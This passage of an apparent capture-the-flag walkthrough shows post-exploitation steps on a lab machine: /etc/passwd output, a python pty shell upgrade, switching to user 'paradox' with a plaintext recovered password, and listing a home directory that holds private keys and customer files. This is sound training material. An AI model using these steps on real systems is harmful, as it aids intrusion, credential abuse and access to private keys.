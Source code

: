 ```
james:x:1000:1000:James:/home/james:/bin/bash
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:994:991:Nginx web server:/var/lib/nginx:/sbin/nologin
paradox:x:1001:1001::/home/paradox:/bin/bash
sh-4.4$ 
```

We already have a password for the user `paradox`. So let's try to log in:
```
sh-4.4$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ su paradox
su paradox
Password: ShibesAreGreat123

[paradox@localhost /]$ id
id
uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
[paradox@localhost /]$ cd /home/paradox
cd /home/paradox
[paradox@localhost ~]$ ls -al 
ls -al 
total 56
drwx------. 4 paradox paradox   203 Nov 18  2020 .
drwxr-xr-x. 4 root    root       34 Nov  8  2020 ..
-rw-rw-r--. 1 paradox paradox 13353 Nov  8  2020 backup.zip
lrwxrwxrwx. 1 paradox paradox     9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r--. 1 paradox paradox    18 Nov  8  2019 .bash_logout
-rw-r--r--. 1 paradox paradox   141 Nov  8  2019 .bash_profile
-rw-r--r--. 1 paradox paradox   312 Nov  8  2019 .bashrc
-rw-rw-r--. 1 paradox paradox 10019 Nov  8  2020 CustomerDetails.xlsx
-rw-rw-r--. 1 paradox paradox 10366 Nov  8  2020 CustomerDetails.xlsx.gpg
drwx------. 4 paradox paradox   132 Nov  8  2020 .gnupg
-rw-------. 1 paradox paradox  3522 Nov  8  2020 priv.key
drwx------  2 paradox paradox    47 Nov 18  2020 .ssh
[paradox@localhost ~]$ 
[paradox@localhost ~]$ ls -al .ssh
ls -al .ssh
total 8
drwx------  2 paradox paradox  47 Nov 18  2020 .
drwx------. 4 paradox paradox 203 Nov 18  2020 ..
-rw-------  1 paradox paradox 583 Nov 18  2020 authorized_keys
-rw-r--r--  1 paradox paradox 583 Nov 18  2020 id_rsa.pub
[paradox@localhost ~]$
```
In the home directory of the user is nothing interesting. The files are the same files, that we already found in the _/backup_ directory.

_To get a more stable shell, we could either generate and add a ssh-key to the system or we can 'upgrade' our shell like shown [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)._
